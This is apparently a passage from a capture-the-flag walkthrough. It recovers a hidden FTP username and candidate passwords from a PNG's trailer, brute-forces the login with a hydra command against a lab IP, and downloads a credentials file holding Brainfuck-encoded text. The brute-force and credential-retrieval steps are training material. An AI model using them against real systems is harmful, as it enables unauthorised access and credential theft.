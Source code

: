 <pre>xxd Hot_Babe.png > hex</pre>

Since it mentioned something about the trailer, I had a look at the end of the file and found some text:

![hidden xxd](https://imgur.com/p33WFYk.png)

You can also see the strings with the following command:

<pre>strings Hot_Babe.png</pre>

There is a hidden message that says:

<pre>Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:</pre>

And then follows many lines of strings. I'm assuming one of the trailering strings after these lines is the password for the ftp server. Let's redirect the strings to a file:

<pre>strings Hot_Babe.png > allstrings</pre>

Assuming one of the lines of text is the password, we could brute force the login with these as a wordlist. Let's only include the lines after "One of these is the password:" in a wordlist:

<pre>sed -n '/^One of these is the password:$/ { :a; n; p; ba; }' allstrings > wordlist</pre>

We now have a file called "wordlist" with all of the strings after "One of these is the password:". We can now construct a hydra command to brute-force the user "ftpuser" against our wordlist to try and gain authorised access.

<pre>hydra -V -l ftpuser -P wordlist ftp://10.10.62.162</pre>

![hydra verbose](https://imgur.com/vaLAVmm.png)

Using these credentials, let's explore the ftp server:

<pre>ftp 10.10.62.162
ftpuser
5***********Q</pre>

There is a .txt file called "Eli's_Creds.txt". Transfer this over to your local machine.

<pre>get Eli's_Creds.txt
bye</pre>

![ftp](https://imgur.com/hA7M9ll.png)

<pre>cat Eli\'s_Creds.txt</pre>

![Elis creds](https://imgur.com/3bqt1Uk.png)

It seems like some sort of encrypted data. 

<pre>+++++ ++++[ -&gt;+++ +++++ +&lt;]&gt;+ +++.&lt; +++++ [-&gt;++ +++&lt;] &gt;++++ +.&lt;++ +[-&gt;-
--&lt;]&gt; ----- .&lt;+++ [-&gt;++ +&lt;]&gt;+ +++.&lt; +++++ ++[-&gt; ----- --&lt;]&gt; ----- --.&lt;+
++++[ -&gt;--- --&lt;]&gt; -.&lt;++ +++++ +[-&gt;+ +++++ ++&lt;]&gt; +++++ .++++ +++.- --.&lt;+
+++++ +++[- &gt;---- ----- &lt;]&gt;-- ----- ----. ---.&lt; +++++ +++[- &gt;++++ ++++&lt;
]&gt;+++ +++.&lt; ++++[ -&gt;+++ +&lt;]&gt;+ .&lt;+++ +[-&gt;+ +++&lt;] &gt;++.. ++++. ----- ---.+
++.&lt;+ ++[-&gt; ---&lt;] &gt;---- -.&lt;++ ++++[ -&gt;--- ---&lt;] &gt;---- --.&lt;+ ++++[ -&gt;---
--&lt;]&gt; -.&lt;++ ++++[ -&gt;+++ +++&lt;] &gt;.&lt;++ +[-&gt;+ ++&lt;]&gt; +++++ +.&lt;++ +++[- &gt;++++
+&lt;]&gt;+ +++.&lt; +++++ +[-&gt;- ----- &lt;]&gt;-- ----- -.&lt;++ ++++[ -&gt;+++ +++&lt;] &gt;+.&lt;+
++++[ -&gt;--- --&lt;]&gt; ---.&lt; +++++ [-&gt;-- ---&lt;] &gt;---. &lt;++++ ++++[ -&gt;+++ +++++
&lt;]&gt;++ ++++. &lt;++++ +++[- &gt;---- ---&lt;] &gt;---- -.+++ +.&lt;++ +++++ [-&gt;++ +++++
&lt;]&gt;+. &lt;+++[ -&gt;--- &lt;]&gt;-- ---.- ----. &lt;</pre>
